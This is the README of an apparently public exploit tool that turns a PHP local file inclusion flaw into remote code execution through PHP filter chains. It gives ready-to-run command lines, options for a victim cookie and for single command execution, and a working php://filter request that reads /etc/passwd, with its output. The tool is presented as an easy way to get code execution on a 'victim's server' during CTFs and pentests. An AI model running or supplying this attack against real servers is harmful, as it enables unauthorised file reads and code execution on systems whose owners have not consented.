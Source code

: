 # LFI to RCE : filters
Found an LFI with PHP filters ? Use this script for RCE !

## Basic usage
```
python3 lfi-to-rce.py http://example.com/vuln_page.php file
```

## Detailled commands

```
usage: lfi-to-rce.py [-h] [-c CMD] [-f FILE] [-d] url parameter

Example : python3 lfi-to-rce.py https://example.com/vuln_page.php file

positional arguments:
  url                   full path to vulnerable page
  parameter             GET parameter vulnerable to LFI

optional arguments:
  -h, --help            show this help message and exit
  -c COOKIE, --cookie COOKIE
                        cookie for the GET request
  -x CMD, --cmd CMD     execute a single command then stop program
  -f FILE, --file FILE  remote file to use : this should point to a valid file on the victim's server. Default : /etc/passwd
  -d, --debug           troubleshooting

```

## Explanation
For this script to work, you have to find an exploitable website with an LFI working with PHP filters.

For example, let's say that http://example.com is vulnerable to LFI on the `vuln_page.php` page with the `file` parameter and PHP filters :

```
GET http://example.com/vuln_page.php?file=php://filter/convert.base64-encode|convert.base64-decode/resource=/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```

Then, you can use this script to gain an easy RCE (no need to check for logging files or other bullsh*t :p) :

`python3 lfi-to-rce.py http://example.com/vuln_page.php file`

For this you'll only need a known file on the system which is readable by the user the server is running as. By default, it uses /etc/passwd but if this file is not accessible, you have to change it with the `-f` or `--file` argument. This will be the case if the server is running on Windows for example !

A smart choice could be using the vulnerable PHP file on the server ! For example :

`python3 lfi-to-rce.py http://example.com/vuln_page.php file --file "./vuln_page.php"`

For more technical details, check the links in Credits !

## Credits
Disclaimer : I did NOT found this exploit, I only used it to build a ready-to-use script useful for CTF or pentests. Full credit for the exploit goes to loknop.

Exploit and most of the code : https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d \
Improvements : https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-php-filters
